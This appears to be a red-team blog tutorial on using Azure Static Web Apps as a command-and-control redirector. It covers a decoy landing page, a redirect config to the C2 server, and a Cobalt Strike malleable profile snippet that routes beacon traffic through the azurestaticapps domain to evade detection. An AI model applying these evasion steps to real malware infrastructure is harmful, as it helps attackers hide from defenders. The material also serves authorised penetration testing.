 # Transforming Azure Static Web Applications into C2 Redirectors:

## Creative C2 Redirection:

This year, I have challenged myself to engineer creative solutions for command-and-control (C2) server redirection. A redirector is a server that sits between your malware controller and the target network. When conducting an engagement, it's crucial to protect offensive infrastructure from detection by defenders. Leveraging cloud features to make  network traffic look legitimate aids in evading intrusion detection systems and can lead to successful completion of offensive operations.

My introduction to developing redirectors started with a basic Apache web server passing HTTP and HTTPS traffic to C2 servers utilizing `mod_rewrite`, a way to conditionally redirect requests to another URL on the fly. However, seeking a stealthier approach, I utilized AWS's Content Delivery Network (CDN) known as CloudFront. By leveraging Amazon's valid certificates and the fact that each domain was allow-listed within the organization, I achieved the desired result: stealth. This began my journey to discovering other methods of masking and redirection to bypass and evade defensive controls.

I was aware that Azure provided similar CDN features, but this approach required a valid domain origin for redirection. What if a down-and-dirty pentester wanted to redirect to a static IP address? That's when I dove into the world of Azure static web applications. 

---

## Creating Static Web Applications:

To create a static web application in Azure, simply navigate to the Azure Portal, select _Create a Resource_, search for _Static Web App_, and create!

![Static Web Application Creation](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/5idppjxu7eyj9e60uoeo.png)

---

## Building the Static Web Application Code:

Before configuring your static web application, you will need to create a GitHub repository to host the code. I simply named mine _StaticWebRedirector_ and created two files in the repository. The first is the HTML index file that will be referenced if the target is not redirected. To safeguard offensive infrastructure from effective defenders and web crawlers, it is crucial to establish criteria for redirection. This can involve specifying a particular URL that the targeted device is attempting to access or defining a specific User-Agent string as conditions for the redirection process. Within your `index.html` file, create a legitimate-looking site to not raise suspicion if the website is crawled or accessed by network defenders. Secondly, create a separate file named `staticwebapp.config.json` and add the following code to it.  

![Redirection Code](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/7p418chzp68vo1l2nnwy.png)

The `staticwebapp.config.json` configuration file defines a _route_, which is the accessed URL for redirection. In the example above, all requests accessing any path within the root of the site will be redirected to the IP address of the C2 server. This redirection occurs via a HTTP 301, which is used to indicate a permanent redirection of a web page or resource. Subsequent requests from the client for the original URL will be automatically redirected to the new URL without the client's involvement. To protect the C2 infrastructure, implement a specific path of the URL that will redirect so that the server will not pass all traffic through, but rather, implement conditions.

---

## Configuring the Web Application:

To configure the Azure static web application, you need to provide details like the subscription, resource group, name, region, and source code repository. You will also be required to authenticate to the GitHub account of the repository where the code is hosted. In addition, you have the option to configure the build settings, such as using build presets or specifying a custom build command if required. I did not utilize any of these features, but they are available. Finally, you can click on "Review + Create" to review all the provided settings and then click "Create" to initiate the creation of the static web app redirector.


![Configuring Static Web App](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/1t04d7r7hd97zwld2gyf.png)

---

## Customizing the C2 Profile:

To effectively utilize this technique, your malware, implants, and payloads need to call back to the web application's URL. For example, if you are using Cobalt Strike, copy the `azurestaticapp` URL into your malleable profile. The URL can be found on the redirector's _Overview_ tab.

![Azure URL](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/s70c2x222vgaatee0er0.png)

Once you have identified the URL, you can add this to your profile. Below is an example from threatexpress' jquery-c2.4.7 profile:

```
http-get {

    set uri "/api/v1";
    set verb "GET";

    client {

        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Host" "calm-cliff-0a3428310.3.azurestaticapps.net";
        header "Referer" "http://code.jquery.com/";
        header "Accept-Encoding" "gzip, deflate";

        metadata {
            base64url;
            prepend "__cfduid=";
            header "Cookie";
        }
    }
```

Compile your payloads and launch away! 

---

I hope this simple demonstration was useful and you learned something new. There are many creative ways to evade defensive controls, and if you would like to learn more, feel free to check out my GitHub at: https://github.com/RoseSecurity
